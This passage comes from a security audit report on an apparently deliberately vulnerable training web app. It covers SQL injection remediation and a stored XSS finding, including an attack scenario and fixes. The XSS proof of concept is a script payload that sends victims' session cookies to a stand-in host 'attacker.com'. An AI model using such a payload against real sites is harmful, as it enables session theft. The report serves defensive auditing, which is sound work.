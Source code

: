 **Remediation Strategy**:
- **Immediate Actions**: Replace string concatenation with parameterized queries
- **Code Changes**: Use ? placeholders and parameter tuples
- **Configuration Updates**: Enable SQL query logging for monitoring
- **Testing Verification**: Implement SQL injection test cases

**Technical Implementation**:
- **File Modifications**: Update all database functions in libuser.py
- **Function Updates**: Replace .format() with parameterized queries
- **Security Controls**: Input validation and sanitization framework

---

#### [VULN-002] - Stored Cross-Site Scripting (XSS)

**Vulnerability ID**: VULN-002
**OWASP Category**: A03 - Injection
**Severity**: Critical
**Discovery Method**: Manual Code Review

**Description**:
The posts display functionality uses the `| safe` filter in Jinja2 templates, which disables automatic HTML escaping and allows stored XSS attacks through user-generated content.

**Affected Code**:
- **File**: `src/vulpy/bad/templates/posts.view.html`
- **Lines**: 23
- **Function**: Template rendering
- **Additional Locations**: Any template using `| safe` filter

**Attack Scenario**:
1. Attacker creates account and logs into application
2. Attacker posts content containing JavaScript: `<script>alert('XSS')</script>`
3. Malicious script is stored in database via libposts.post()
4. When other users view posts, script executes in their browsers
5. Attacker can steal session cookies, perform actions on behalf of users

**Proof of Concept**:
```html
Post content: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**Root Cause Analysis**:
- **Primary Cause**: Use of `| safe` filter disabling HTML escaping
- **Contributing Factors**: No input sanitization, no CSP implementation
- **Design Flaws**: Direct rendering of user content without validation

**Remediation Strategy**:
- **Immediate Actions**: Remove `| safe` filter from user content rendering
- **Code Changes**: Implement proper output encoding
- **Configuration Updates**: Deploy Content Security Policy (CSP)
- **Testing Verification**: XSS test cases for all user input fields

**Technical Implementation**:
- **File Modifications**: Update posts.view.html template
- **Function Updates**: Replace `{{ post.text | safe }}` with `{{ post.text }}`
- **Security Controls**: CSP headers and input validation

---